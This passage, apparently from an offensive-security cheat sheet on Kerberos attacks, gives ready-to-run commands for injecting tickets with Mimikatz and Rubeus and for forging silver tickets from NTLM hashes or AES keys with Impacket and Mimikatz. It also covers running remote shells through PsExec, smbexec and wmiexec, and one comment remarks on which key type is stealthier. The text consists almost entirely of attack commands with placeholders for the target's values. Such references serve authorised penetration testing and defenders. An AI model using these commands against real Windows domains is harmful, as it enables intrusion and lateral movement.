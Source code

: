 
### Using ticket in Windows

Inject ticket with [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Silver ticket

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# To generate the TGS with NTLM
impacket-ticketer -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
impacket-ticketer -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
impacket-psexec <domain_name>/<user_name>@<remote_hostname> -k -no-pass
impacket-smbexec <domain_name>/<user_name>@<remote_hostname> -k -no-pass
impacket-wmiexec <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
# To generate the TGS with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# Inject TGS with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```
